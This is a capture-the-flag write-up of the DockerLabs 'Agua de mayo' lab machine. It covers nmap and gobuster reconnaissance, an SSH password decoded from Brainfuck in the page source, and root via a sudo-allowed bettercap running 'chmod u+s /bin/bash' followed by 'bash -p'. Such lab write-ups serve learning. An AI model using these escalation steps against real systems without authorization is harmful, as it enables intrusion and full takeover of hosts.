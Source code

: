 #Agua de mayo DockerLabs - 15/05/2024

#web - https://dockerlabs.es/#/

We performed a scan with nmap:

```shell
└─$ nmap -sVC -p- -n --min-rate 5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-15 21:03 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000099s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 75:ec:4d:36:12:93:58:82:7b:62:e3:52:91:70:83:70 (ECDSA)
|_  256 8f:d8:0f:2c:4b:3e:2b:d7:3c:a2:83:d3:6d:3f:76:aa (ED25519)
80/tcp open  http    Apache httpd 2.4.59 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.59 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.93 second
```

We do a subdomain scan to see what we find: 

```shell
└─$ gobuster dir -u "http://172.17.0.2/" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt                  
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 309] [--> http://172.17.0.2/images/]

```

Encuentra un subdominio "/images" entramos y vemos una foto llamada "agua-ssh.jpg":

![Captura de pantalla 2024-05-15 210411](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/6720af91-f6c1-4640-a30a-ea5752d0f048)

Seeing what else I could do I looked at the source code of the apache page ‘http://172.17.0.2/’:

![Captura de pantalla 2024-05-15 210502](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/04cc74f8-2388-434d-b202-cb18b2c29bd5)

I found this code and googled it to see what it could be:

![Captura de pantalla 2024-05-15 210522](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/9cc2c3b5-7fff-4dd0-974f-967445bc385c)

We can see that it is a ‘Brainfuck’ code.
We translate it and we get this:

![Captura de pantalla 2024-05-15 210554](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/f00c55f4-6a60-40ed-a884-064c2e5ef3e7)

```shell
bebeaguaqueessano
```

Log into the ssh server with the user ‘agua’ and the password ‘bebeaguaqueessano’:

```shell
└─$ ssh agua@172.17.0.2                                                                                 
agua@172.17.0.2's password: 
Linux adf1fc8e668d 6.6.9-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.6.9-1kali1 (2024-01-08) x86_64
```

(si a mi me sale "-bash-5.2$" es porque ya la había vulnerado ignorarlo y tomarlo como si fuera el default)

We try to see if we can escalate privileges:

```shell
-bash-5.2$ sudo -l
Matching Defaults entries for agua on adf1fc8e668d:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User agua may run the following commands on adf1fc8e668d:
    (root) NOPASSWD: /usr/bin/bettercap
-bash-5.2$

```

Run the binary as sudo:

```shell
-bash-5.2$ sudo /usr/bin/bettercap
```

![Captura de pantalla 2024-05-15 210910](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/55ab5e4d-8180-4291-aadb-cb1097493bb5)

We run help to see what commands we can do and we see this one:

![Captura de pantalla 2024-05-15 210926](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/896084ff-c342-4ef9-aa32-a7c0b3b28dec)

```shell
172.17.0.0/16 > 172.17.0.2  » ! chmod u+s /bin/bash
```

(Salimos)

```shell
-bash-5.2$ bash -p
```

```
bash-5.2# whoami
root
```
